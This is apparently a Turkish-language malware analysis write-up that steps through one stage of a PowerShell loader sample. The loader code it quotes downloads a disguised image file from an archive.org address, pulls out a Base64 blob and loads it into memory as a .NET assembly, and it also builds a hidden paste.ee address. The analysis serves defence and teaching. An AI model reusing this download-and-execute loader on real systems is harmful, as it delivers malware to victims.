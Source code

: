 Burada aslında tek satır bir script bulunmakta fakat görsel kalabalığı oluşturmaması açısından kodu düzenledim. Gelin bu kodu adım adım analiz edelim;

<img title="Dördüncü Aşama" src="../assets/SecondSampleFourthStage.png" style="display:block; margin-right:auto; margin-left:auto; padding-bottom:20px;">

```powershell
$potluck = '0/bA5qrGyK/d/ee.e#sap//:p##h';
$SqlDateTime = $potluck -replace '#', 't';

```
Burada muhtemelen dördüncü aşamada elde edilecek olan zararlı yazılım için parametre hazırlanıyor. Reverse halde bir **"paste[.]ee"** adresi elde ediliyor.

```powershell
$proctorship = 'https[:]//archive[.]org/download/new_image_20250516/new_image[.]jpg';
$intraclonal = New-Object System.Net.WebClient;
$intraclonal.Headers.Add('User-Agent','Mozilla/5.0');
$stickers = $intraclonal.DownloadData($proctorship);
$organises = [System.Text.Encoding]::UTF8.GetString($stickers);
```
Bu kod bloğunda **"proctorship"** değişkeninde bulunan adresten dosya indirmek için **"$intraclonal"** değişkeni oluşturup bu değişkene **"New-Object System.Net.WebClient"** komutu ile WebClient türünde bir obje atanıyor. Son iki satırda ise adreste bulunan veri **"$stickers"** değişkenine indiriliyor ve UTF8 formatına çevrilerek **"$organises"** değişkenine yazılıyor.

```powershell
$vacillancy = '<<BASE64_START>>';
$knockwursts = '<<BASE64_END>>';
$gingall = $organises.IndexOf($vacillancy);
$slitless = $organises.IndexOf($knockwursts);
$gingall -ge 0 -and $slitless -gt $gingall;
$gingall += $vacillancy.Length;
$followdays = $slitless - $gingall;
$Messina = $organises.Substring($gingall, $followdays);
$thrivingness = [System.Convert]::FromBase64String($Messina);
$schemata = [System.Reflection.Assembly]::Load($thrivingness);
```

Yukarıdaki kod bloğunda; **"$vacillancy ve $knockwursts"** değişkenleri indirilen veri içerisinde bulunan Base64 blob'unun başlangıc ve sonunu belirlemek için kullanılmaktadır. **"$gingall ve $slitless"** değişkenleri üzerinde başlangıç ve bitiş indexleri tutulmaktadır. Sonrasında **"-ge"** ve **"-gt"** komutlarıyla dosyanın sağlıklı şekilde indirildiği kontrol ediliyor. Eğer dosya indirilmezse buradaki index değerleri 0(veya NULL) olacağı için sorguyu geçemeyecektir. 
